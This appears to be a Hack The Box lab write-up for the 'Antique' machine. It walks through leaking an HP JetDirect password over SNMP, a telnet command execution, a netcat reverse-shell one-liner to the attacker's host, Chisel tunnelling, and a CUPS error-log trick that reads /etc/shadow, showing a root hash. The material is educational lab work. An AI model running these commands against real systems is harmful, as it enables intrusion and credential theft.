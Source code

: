 ```yaml
---
title: Antique
tags:
  - HackTheBox
  - Easy
  - Linux
  - Printer_Hacking
  - Telnet
  - SNMP
  - Tunnelling
  - CUPS
date: 2024-09-23T00:00:00Z
---
```

![](Pasted%20image%2020241123232115.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.107 antique.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- antique.htb > sC.txt

[redacted]
PORT   STATE SERVICE
23/tcp open  telnet
```

So I connected via telnet to the machine, but unfortunately, it required password:

```shell
telnet antique.htb 23

[redacted]
Connected to antique.htb.
Escape character is '^]'.

HP JetDirect
```

Now we know that there is an HP JetDirect printer running.

So I decided to run another Nmap scan, but UDP this time (I just scanned top 10 ports because this type of scan is not very reliable):

```shell
nmap -sU --top-ports=10 antique.htb

[redacted]
PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open          snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp open|filtered ms-sql-m
```

Then I performed a more detailed one on port `161`:

```shell
nmap -sUV -p161 antique.htb > 161.txt

[redacted]
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```

## Weaponization

Apart from [Hacktricks notes](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) I discovered this forum about [Network printer hacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

## Exploitation

So I performed the following command to get the JetDirect password using the SNMP vulnerability:

```shell
snmpget -v 1 -c public antique.htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

We have to notice the BITS part and decode it from Hex (e.g. with Cyberchef):

```python
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
# Decoded from hex
P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy 
# The password is just
P@ssw0rd@123!!123
```

> I got access :D

![](Pasted%20image%2020241123235442.png)

Now I executed the help command:

```shell
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

I noticed this command:

```shell
exec: execute system commands (exec id)
# I tried to execute a command
exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

So I can try to get a reverse shell from here:

```shell
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 666 >/tmp/f
```

> Got it!

![](Pasted%20image%2020241123235939.png)

I can now read the user flag:

![](Pasted%20image%2020241124000131.png)

## Privilege Escalation

I performed some enumeration around the machine, and discovered something running on port 631:

```shell
netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 10.10.11.107:23         10.10.14.25:56774       ESTABLISHED
tcp        0      2 10.10.11.107:46940      10.10.14.25:666         ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN 
```

If we perform a curl request, it returns a webpage:

```shell
curl 127.0.0.1:631

[redacted]
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Home - CUPS 1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
        <LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
<BODY>
<TABLE CLASS="page" SUMMARY="{title}">
<TR><TD CLASS="body">
<TABLE BORDER="0" CELLPADDING="0" CELLSPACING="0" SUMMARY="">
<TR HEIGHT="36">
[redacted]
```

Now, to perform the tunnelling I need to download [Chisel](https://github.com/jpillora/chisel) on my machine and upload it to the printer:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
# Now create a python server and upload it to the machine
```

Now on my machine I executed the following command:

```shell
./chisel_1.10.1_linux_amd64 server -p 7000 --reverse 
```

And then on the printer I run:

```shell
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 client 10.10.14.25:7000 R:7631:localhost:631
```

![](Pasted%20image%2020241124001852.png)

Now I can visit `http://localhost:7631` and see what the page looks like:

![](Pasted%20image%2020241124002023.png)

Searching for "*CUPS 1.6.1 exploit*" I dealed with [CUPS root file read exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb). Although it's a Metasploit exploit, I decided to check for what was actually doing:

```ruby
cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")
# Then check
file = strip_http_headers(get_request('/admin/log/error_log'))
```

Basically you can use `cupsctl` to send the content of any file to an error log, like:

```shell
cupsctl ErrorLog=/etc/shadow
# The check it using curl
curl -S http://localhost:631/admin/log/error_log

[redacted]
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
```

So we can now read any file in the system :D So I read root flag:

![](Pasted%20image%2020241124003125.png)

==Machine pwned!==